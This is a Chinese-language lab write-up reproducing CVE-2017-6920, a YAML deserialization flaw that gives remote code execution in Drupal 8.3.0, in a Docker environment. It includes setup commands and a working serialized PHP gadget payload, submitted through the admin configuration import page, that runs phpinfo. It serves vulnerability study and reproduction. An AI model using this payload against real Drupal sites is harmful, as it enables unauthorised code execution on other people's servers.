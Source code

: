 # Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞 CVE-2017-6920

## 漏洞描述

影响软件：Drupal

方式：反序列化

参考链接：[CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](https://paper.seebug.org/334/)

效果：任意代码执行

> PECL：PHP Extension Community Library
>
> YAML：Yet Another Markup Language

## 环境搭建

Vulhub执行如下命令启动 drupal 8.3.0 的环境：

```bash
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/` 将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

![image-20220222191227040](./images/202202221912492.png)

## 漏洞复现

先安装 `yaml` 扩展

```
# 换镜像源，默认带vim编辑器，所以用cat换源，可以换成自己喜欢的源
cat > sources.list << EOF
deb http://mirrors.163.com/debian/ jessie main non-free contrib
deb http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
deb-src http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
EOF
# 安装依赖
apt update
apt-get -y install gcc make autoconf libc-dev pkg-config
apt-get -y install libyaml-dev
# 安装yaml扩展
pecl install yaml
docker-php-ext-enable yaml.so
# 启用 yaml.decode_php 否则无法复现成功
echo 'yaml.decode_php = 1 = 1'>>/usr/local/etc/php/conf.d/docker-php-ext-yaml.ini
# 退出容器
exit
# 重启容器，CONTAINER换成自己的容器ID
docker restart CONTAINER
```

登录一个管理员账号，访问 `http://[your ip]:8080/admin/config/development/configuration/single/import`

如下图所示，`配置类型` 选择 `简单配置`，`配置名称` 任意填写，`将配置粘贴到此处` 中填写PoC如下：

```
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```

![image-20220222191446025](./images/202202221914100.png)

点击 `导入` 后可以看到漏洞触发成功，弹出 `phpinfo` 页面

![image-20220222191459724](./images/202202221914816.png)

